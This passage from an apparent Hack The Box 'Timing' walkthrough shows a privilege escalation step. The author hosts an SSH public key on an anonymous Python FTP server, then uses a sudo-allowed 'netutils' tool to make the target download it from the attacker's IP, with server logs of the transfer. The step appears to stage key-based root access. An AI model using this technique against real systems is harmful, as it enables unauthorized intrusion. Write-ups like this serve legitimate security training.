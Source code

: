 Put a copy of public key in our working folder:

```sh
┌──(root💀kali)-[~]
└─# cp .ssh/id_rsa.pub htb/timing
```

## Python FTP Server

Install the Python3 FTP library if needed:

```sh
┌──(root💀kali)-[~/htb/timing]
└─# pip3 install pyftpdlib
Collecting pyftpdlib
  Downloading pyftpdlib-1.5.6.tar.gz (188 kB)
     |████████████████████████████████| 188 kB 3.1 MB/s 
Building wheels for collected packages: pyftpdlib
  Building wheel for pyftpdlib (setup.py) ... done
  Created wheel for pyftpdlib: filename=pyftpdlib-1.5.6-py3-none-any.whl size=125586 sha256=46681c9b907290fe344e3955d21dfbb015118a29d3b431b1772d453ad7d54931
  Stored in directory: /root/.cache/pip/wheels/54/9f/5f/50eae5deee54c11cd059c5bda2ebd7dcd461d81b5c89f50f75
Successfully built pyftpdlib
Installing collected packages: pyftpdlib
Successfully installed pyftpdlib-1.5.6
```

Now start an FTP server so we can get to our SSH public key:

```sh
┌──(root💀kali)-[~/htb/timing]
└─# python3 -m pyftpdlib -p 21
[I 2021-12-29 22:15:26] concurrency model: async
[I 2021-12-29 22:15:26] masquerade (NAT) address: None
[I 2021-12-29 22:15:26] passive ports: None
[I 2021-12-29 22:15:26] >>> starting FTP server on 0.0.0.0:21, pid=1597 <<<
```

Switch back to the box and run the netutils app again, this time choose 0 for FTP and enter our Kali IP and the SSH public key we are hosting there:

```text
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 0
Enter Url+File: 10.10.14.12/id_rsa.pub
```

Now back to Kali and check the file was requested:

```sh
[I 2021-12-29 22:37:11] 10.10.11.135:43464-[] FTP session opened (connect)
[I 2021-12-29 22:37:11] 10.10.11.135:43464-[anonymous] USER 'anonymous' logged in.
[I 2021-12-29 22:37:11] 10.10.11.135:43464-[anonymous] RETR /root/htb/timing/id_rsa.pub completed=1 bytes=563 seconds=0.0
[I 2021-12-29 22:37:11] 10.10.11.135:43464-[anonymous] FTP session closed (disconnect).
```
